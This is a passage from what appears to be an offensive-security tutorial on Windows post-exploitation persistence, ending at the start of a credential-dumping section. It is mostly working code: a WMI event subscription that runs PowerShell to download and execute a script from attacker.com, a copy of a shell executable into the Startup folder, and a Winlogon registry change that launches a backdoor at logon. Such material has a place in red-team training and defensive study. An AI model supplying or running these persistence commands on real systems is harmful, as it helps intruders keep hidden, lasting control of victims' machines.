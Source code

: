```bash

# WMI event subscription persistence
# Create WMI event filter
$filter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{
    Name="ProcessStartFilter";
    EventNameSpace="root\cimv2";
    QueryLanguage="WQL";
    Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'"
}

# Create WMI event consumer
$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
    Name="ProcessStartConsumer";
    CommandLineTemplate="powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://attacker.com/shell.ps1')"
}

# Bind filter to consumer
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
    Filter=$filter;
    Consumer=$consumer
}

# Startup folder persistence
copy "C:\temp\shell.exe" "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.exe"

# DLL hijacking persistence
# Place malicious DLL in application directory
# Target applications that load DLLs from current directory

# Logon script persistence (requires admin)
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Userinit" /t REG_SZ /d "C:\Windows\system32\userinit.exe,C:\temp\backdoor.exe"

# Why multiple persistence methods:
# - Different methods survive different defensive actions
# - Registry methods are common and well-documented
# - Service persistence provides system-level access
# - WMI persistence is stealthy and advanced
# - Startup folder is user-level but reliable
```

## Cross-Platform Post-Exploitation Techniques

### **Credential Dumping and Password Attacks**

**What credential dumping involves:** Extracting authentication credentials from compromised systems for use in lateral movement and privilege escalation.
